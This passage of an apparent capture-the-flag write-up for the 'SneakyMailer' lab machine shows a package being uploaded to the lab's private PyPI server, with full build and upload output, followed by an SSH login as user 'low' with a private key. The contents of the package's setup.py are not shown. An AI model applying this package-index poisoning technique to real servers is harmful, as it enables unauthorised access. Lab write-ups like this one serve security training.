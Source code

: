 ```bash
./sysstat-0.1/PKG-INFO
./sysstat-0.1/setup.py
./sysstat-0.1/MANIFEST.in

developer@sneakymailer:/tmp/sysstat-0.1$ python3 setup.py sdist register -r local upload -r local
<n3 setup.py sdist register -r local upload -r local
running sdist
running egg_info
creating example_pkg3.egg-info
writing example_pkg3.egg-info/PKG-INFO
writing dependency_links to example_pkg3.egg-info/dependency_links.txt
writing top-level names to example_pkg3.egg-info/top_level.txt
writing manifest file 'example_pkg3.egg-info/SOURCES.txt'
reading manifest file 'example_pkg3.egg-info/SOURCES.txt'
reading manifest template 'MANIFEST.in'
warning: no files found matching 'sysstat/README.md'
writing manifest file 'example_pkg3.egg-info/SOURCES.txt'
running check
creating example-pkg3-0.0.1
creating example-pkg3-0.0.1/example_pkg3.egg-info
creating example-pkg3-0.0.1/sysstat
copying files to example-pkg3-0.0.1...
copying MANIFEST.in -> example-pkg3-0.0.1
copying README.md -> example-pkg3-0.0.1
copying setup.cfg -> example-pkg3-0.0.1
copying setup.py -> example-pkg3-0.0.1
copying example_pkg3.egg-info/PKG-INFO -> example-pkg3-0.0.1/example_pkg3.egg-info
copying example_pkg3.egg-info/SOURCES.txt -> example-pkg3-0.0.1/example_pkg3.egg-info
copying example_pkg3.egg-info/dependency_links.txt -> example-pkg3-0.0.1/example_pkg3.egg-info
copying example_pkg3.egg-info/top_level.txt -> example-pkg3-0.0.1/example_pkg3.egg-info
copying sysstat/conf.ini -> example-pkg3-0.0.1/sysstat
Writing example-pkg3-0.0.1/setup.cfg
creating dist
Creating tar archive
removing 'example-pkg3-0.0.1' (and everything under it)
running register
Registering example-pkg3 to http://pypi.sneakycorp.htb:8080
Server response (200): OK
WARNING: Registering is deprecated, use twine to upload instead (https://pypi.org/p/twine/)
running upload
Submitting dist/example-pkg3-0.0.1.tar.gz to http://pypi.sneakycorp.htb:8080
Server response (200): OK
WARNING: Uploading via this command is deprecated, use twine to upload instead (https://pypi.org/p/twine/)
```

Now we can `ssh` into the machine.

```bash
kali@kali:~/Desktop/htb/sneaky$ ssh -i id_rsa low@sneakymailer.htb
Linux sneakymailer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
No mail.
Last login: Tue Jun  9 03:02:52 2020 from 192.168.56.105
low@sneakymailer:~$ 
```
